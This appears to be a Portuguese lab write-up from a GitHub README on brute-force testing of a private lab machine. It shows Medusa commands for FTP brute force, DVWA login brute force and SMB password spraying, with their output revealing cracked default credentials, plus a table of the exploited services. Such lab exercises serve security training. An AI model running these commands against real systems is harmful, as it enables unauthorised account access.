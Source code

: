 ## 🎯 Cenários de Teste Implementados

### 1. 📁 Ataque FTP - Força Bruta
```bash
# Comando executado
medusa -h 192.168.56.102 -u msfadmin -P wordlists/senhas_simples.txt -M ftp -t 4

# Resultado
[INFO] - Porta 21 (vsftpd 2.3.4) vulnerável
[SUCCESS] - Credenciais encontradas: msfadmin:msfadmin
```

**Vulnerabilidade Identificada**: vsftpd 2.3.4 com backdoor
**CVE**: CVE-2011-2523

### 2. 🌐 Ataque Web - DVWA Brute Force
```bash
# Comando executado
medusa -h 192.168.56.102 -u admin -P wordlists/senhas_simples.txt -M http -m DIR:/dvwa/login.php

# Resultado
[SUCCESS] - Login web comprometido: admin:password
```

**Vulnerabilidade**: Formulário de login sem proteção contra força bruta

### 3. 💻 Password Spraying - SMB
```bash
# Comando executado
medusa -h 192.168.56.102 -U wordlists/usuarios_simples.txt -p Password123 -M smbnt -t 2

# Resultado
[INFO] - Múltiplos usuários testados
[SUCCESS] - Acesso SMB obtido
```

**Vulnerabilidade**: Serviço SMB com configurações inseguras

## 📊 Resultados e Análises

### Vulnerabilidades Críticas Encontradas

| Serviço | Porta | Vulnerabilidade | Severidade | Status |
|---------|--------|----------------|------------|---------|
| **FTP** | 21 | vsftpd backdoor | 🔴 Crítica | Explorada |
| **SSH** | 22 | Credenciais fracas | 🟡 Média | Explorada |
| **HTTP** | 80 | Sem rate limiting | 🟠 Alta | Explorada |
| **SMB** | 445 | Configuração insegura | 🟠 Alta | Explorada |
